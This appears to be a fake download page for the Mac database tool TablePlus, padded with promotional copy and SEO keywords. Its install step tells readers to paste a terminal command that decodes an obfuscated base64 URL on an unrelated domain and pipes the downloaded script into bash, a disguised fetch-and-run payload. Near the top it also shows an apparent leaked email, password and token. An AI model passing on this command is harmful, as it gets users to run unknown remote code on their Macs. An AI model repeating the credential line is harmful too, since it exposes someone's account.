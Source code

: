 # TablePlus for Mac Download - Modern Database Tool  

auhejosael@hotmail.com:Cejusadaxopi59:UTZG4GC4OYIS2YER

![TablePlus Screenshot](https://tableplus.com/assets/images/sql-ide/new-connection.png)  

---  

### 🔽 Download TablePlus for Mac  

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
``` 

---  

## What is TablePlus for Mac?  

TablePlus revolutionizes database management on macOS with its sleek, powerful interface designed for professionals who demand both performance and elegance. As a next-generation database client, TablePlus combines enterprise-grade functionality with an exceptionally user-friendly experience. Unlike clunky traditional tools, it provides instant access to your data with native speed and precision while maintaining rigorous security standards.

Engineered specifically for macOS, TablePlus takes full advantage of Apple's technologies to deliver buttery-smooth performance even when working with massive datasets. Its clean, distraction-free interface can be customized to your workflow with multiple themes and layout options. Developers love the intelligent autocomplete and syntax highlighting that makes writing complex SQL queries effortless, while DBAs appreciate the robust connection management and data visualization tools.

Beyond basic database operations, TablePlus shines with advanced features like:
- Schema visualization that helps you understand complex database structures
- Tabbed interface for working with multiple queries simultaneously
- Data export in multiple formats (CSV, JSON, SQL) with customizable options
- Direct editing capabilities that eliminate the need for separate CRUD applications

Whether you're building a new application, migrating legacy systems, or performing complex data analysis, TablePlus provides the perfect balance of power and simplicity. It's trusted by teams at companies like Apple, Google, and Amazon for its reliability and cutting-edge features.

![TablePlus Query Builder](https://tableplus.com/resources/images/macbook-iphone.png)  

---  

## Key Features & Benefits  

- 🗃️ Supports MySQL, PostgreSQL, SQLite, and Redis  
- ⚡️ Native implementation for blazing-fast performance  
- 🖥 Intuitive UI with dark mode and customizable themes  
- 🔒 Secure connections with SSH and TLS encryption  
- ✏️ Smart query builder and data filters  
- 💻 Perfect for developers and database administrators  

Whether you're managing website databases, developing applications, or analyzing data, TablePlus delivers unmatched efficiency and control.  

---  

## 🔍 Keywords  

TablePlus Mac, TablePlus Mac Download, TablePlus for Mac Download, TablePlus Mac, TablePlus Download Mac, TablePlus Download for Mac, TablePlus full version, Mac Download TablePlus, Download Mac TablePlus, Download TablePlus Mac, Download TablePlus for Mac  
